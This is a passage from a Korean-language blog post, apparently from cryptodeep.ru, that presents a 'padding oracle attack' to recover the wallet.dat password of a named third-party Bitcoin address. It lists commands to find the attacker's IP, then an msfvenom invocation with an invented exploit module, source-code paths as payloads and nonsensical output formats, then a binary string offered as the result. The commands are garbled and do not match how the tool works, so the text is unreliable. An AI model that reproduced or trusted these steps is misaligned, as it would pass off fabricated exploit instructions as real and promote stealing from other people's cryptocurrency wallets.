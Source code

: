 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><strong><code>LHOST&nbsp;(Local Host)</code></strong>공격하는&nbsp; 가상 머신을&nbsp;식별해야 합니다&nbsp;<strong><code>IP-address</code></strong>.</p>



<p><strong>다음 명령을 실행해 보겠습니다.</strong></p>



<pre class="wp-block-code"><code>!ip addr
!hostname -I</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-6.png" alt="인기 있는 비트코인 ​​코어 지갑에 대한 Wallet.dat 비밀번호 해독에 대한 패딩 오라클 공격" class="wp-image-3795"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>도구를 사용하여 페이로드를 생성해 보겠습니다.&nbsp;<strong><code>MSFVenom</code></strong></p>



<p>작동하려면 비트코인 ​​지갑:&nbsp;<strong><a href="https://btc1.trezor.io/address/1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b" target="_blank" rel="noreferrer noopener">1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b 를 선택하세요.</a></strong>&nbsp;</p>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-80.png" alt="Libbitcoin Explorer 3.x 라이브러리의 Milk Sad 취약점, Bitcoin Wallet(BTC) 사용자로부터 $900,000를 도난당한 방법"/><figcaption class="wp-element-caption"><a href="https://btc1.trezor.io/address/1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b" target="_blank" rel="noreferrer noopener">https://btc1.trezor.io/address/1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b</a></figcaption></figure>



<p><strong>실행 명령:</strong></p>



<pre class="wp-block-code"><code>!./msfvenom 1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b -p modules/exploits/ExploitDarlenePRO LHOST=172.28.0.12 -f RB -o decode_core.rb -p bitcoin/src/crypto LHOST=172.28.0.12 -f CPP -o aes.cpp -p bitcoin/src/crypto LHOST=172.28.0.12 -f DAT -o wallet.dat
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-104-1024x237.png" alt="인기 있는 비트코인 ​​코어 지갑에 대한 Wallet.dat 비밀번호 해독에 대한 패딩 오라클 공격" class="wp-image-4211"/></figure>



<p><strong>결과:</strong></p>



<pre class="wp-block-code"><code>1111111001010001100010110100011010011111011101001010111001011110010111000011101101000101010100001111000000011110010001110001110001011000111101001101110010010010101001101011110100010010100011011011001010111100110100110011100100001110110101001110111011100101</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
